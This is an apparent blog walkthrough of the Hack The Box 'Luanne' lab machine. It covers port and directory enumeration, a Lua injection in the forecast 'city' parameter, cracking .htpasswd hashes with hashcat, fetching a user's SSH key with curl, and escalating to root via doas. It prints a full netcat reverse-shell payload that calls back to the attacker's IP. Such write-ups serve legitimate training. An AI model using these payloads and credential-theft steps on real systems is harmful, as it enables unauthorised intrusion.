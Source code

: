 ```yaml
---
title: Luanne Hackthebox Writeup
date: 2020-12-01 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [bsd,doas,hashcat,cracking,hashes,ssh,reverse shell,lua,gobuster,directory enumeration,netbsd,luanne,hackthebox,easy]     # TAG names should always be lowercase
image: /assets/img/luanne-hackthebox/luanne-pic.png
layout: secret_post
key: hello
subtitle: JHBDOcubeoveiubo
---
```


# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Luanne
IP | 10.10.10.218
Points | 20
Os | BSD
Difficult | Easy
Creator | [polarbearer](https://www.hackthebox.eu/home/users/profile/159204)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Checking **robots.txt** and enumerating the `directories`.
* Generating a reverse shell in `Lua`.
* Getting a low priviveleged shell, and traversing in every directory.
* **Cracking** hash using `hashcat`.
* Accessing an unexplored port i.e. `3001`.
* Extracting `id_rsa` of one of the users : `r.michaels` using a crafted **curl** command.
* Loging into `r.michaels` using **ssh** with **id_rsa**.
* Manually `enumerating` and looking for interesting files.
* Decrypting a file using `netpgp` : A tool for decrypting files in BSD.
* **Cracking** another hash using `hashcat`.
* **Escalating** privileges as **root** using `doas` command in BSD.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/luanne-hackthebox/xx-alternate-nmapautomator.png)


Basically 3 ports are open : `22:ssh` `80:http` `9001:http-Medusa`.

I looked at **port 80** which showed `/weather` as one of the directories.

Accessing `http://10.10.10.218`.

___
![](/assets/img/luanne-hackthebox/latestt-01.png)


Accessing `http://10.10.10.218/robots.txt`.

___
![](/assets/img/luanne-hackthebox/latest-02.png)


Accessing `http://10.10.10.218/weather`.

___
![](/assets/img/luanne-hackthebox/latest-03.png)


It shows a `404 error` , enumerating directory with `gobuster`.

**Command used:** `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.218/weather/ -t 100`

___
![](/assets/img/luanne-hackthebox/gobuster.png)


I got another directory as `/forecast`. Further accessing and providing the parameter as `city`.

___
![](/assets/img/luanne-hackthebox/latest-04.png)


___
![](/assets/img/luanne-hackthebox/latest-05.png)


Trying to create an `error` with which is `%27` in URL encode.

___
![](/assets/img/luanne-hackthebox/creating-error.png)


From the error I got to know that a language called `Lua` is being used.

After some research I created a `reverse shell`.

**Shell Command :** *http://10.10.10.218/weather/forecast?city=London'+os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP 4444 >/tmp/f ")+'*

URL encoding the reverse shell payload, sending it and listening on `nc`.

___
![](/assets/img/luanne-hackthebox/initial-foothold-shell-10.png)


I got a shell as `_httpd`.

After that, I manually enumerated the files and while accessing `/var/www/`, I got a `.htpasswd` file.

___
![](/assets/img/luanne-hackthebox/webapi-user-12.png)


I used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hashcat-commad-cracking-14.png) ___

Got the password as `iamthebest`. I logged in port 80 but couldn't find anything there.

Accessing `port 9001`, and entering **user:123** as random username:password.

___
![](/assets/img/luanne-hackthebox/port-9001-login-access-17.png)


Further I checked `http://10.10.10.218:9001/logtail/processes`. I found the following:

___
![](/assets/img/luanne-hackthebox/logical-process-3001-port.png)


To understand in detail, read this : [Userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) and [Userdir-feature](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/).

Getting `id_rsa` of the user: `r.michaels`.

**Command Used:** *curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa*

___
![](/assets/img/luanne-hackthebox/id-rsa-r.michaels-19.png)


Proving permissions to `id_rsa` as `600`. Loging in as `r.michaels` using ssh and id_rsa.

**Command Used:** *chmod 600 id_rsa* 

*ssh -i id_rsa r.michaels@10.10.10.218*

___
![](/assets/img/luanne-hackthebox/ssh-loggedin-21.png)


Got `User Flag`.

___
![](/assets/img/luanne-hackthebox/user-flag-22.png)


Further enumerating manually, I got a `backup file` in `/home/r.michaels/backups/`. As it was encrypted so I used `netpgp` command to decrypt it.

___
![](/assets/img/luanne-hackthebox/backups-r.michales-encrypt-23.png)


**Command Used:** *netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/output.tar.gz*

___
![](/assets/img/luanne-hackthebox/netpgp-decrypt-output-25.png)


___
![](/assets/img/luanne-hackthebox/unzip-gunzip-28.png)


After accessing `devel-2020-09-16/www/.htpasswd`, I got another hash: *webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.*

Again used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hash-crack-root-30.png)


Got the password as `littlebear`.

To upgrage `privileges` in BSD, following command is used : *doas -u root /bin/sh* and then enter the password you got.

___
![](/assets/img/luanne-hackthebox/root-31.png)


Got `Root Flag`.

